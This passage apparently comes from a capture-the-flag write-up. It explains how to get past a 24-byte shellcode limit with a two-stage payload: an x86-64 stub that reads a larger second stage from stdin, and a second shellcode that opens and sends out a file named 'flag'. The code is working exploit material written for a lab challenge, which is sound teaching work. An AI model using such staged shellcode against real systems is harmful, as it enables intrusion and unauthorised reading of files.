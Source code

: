 This means that only 24 bytes (0x18 = 24) worth of instructions will be read from standard input, this means that our previous shellcode won't work anymore since the target will only allow execute the first 24 bytes worth of information. In order to overcome this issue we create a `multi stage shellcode`, this type of shellcode consists in sending multiple shellcodes during the same connection; in our case we will use two shellcodes.

```asm
.intel_syntax noprefix
.global _start

_start:

push 0
push 0
pop rdi
lea rsi, [rip+9]
mov rdx, 250
pop rax

syscall
```

This code will allow us to use sys.read() in order to receive instruction from stdin, effectively bypassing the 24 bytes restriction imposed by the challenge.
sys.read() requires three arguments: a file descriptor, a buffer and a size value.
Being 0 the file descriptor for stdin and the value needed to invoke the syscall, we push two zeros on the stack.

We load the memory address which will point to the end of our shellcode in rsi and specify 250 expected bytes. We then invoke the kernel to execute sys.read().

```asm
.global _start
.intel_syntax noprefix

_start:

open:
lea rdi, [rip+flag]
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall

sendfile:
mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 60
mov rax, 40
syscall

exit:
mov rax, 60
mov rsi, 42
syscall

flag:
  .string "flag"
```
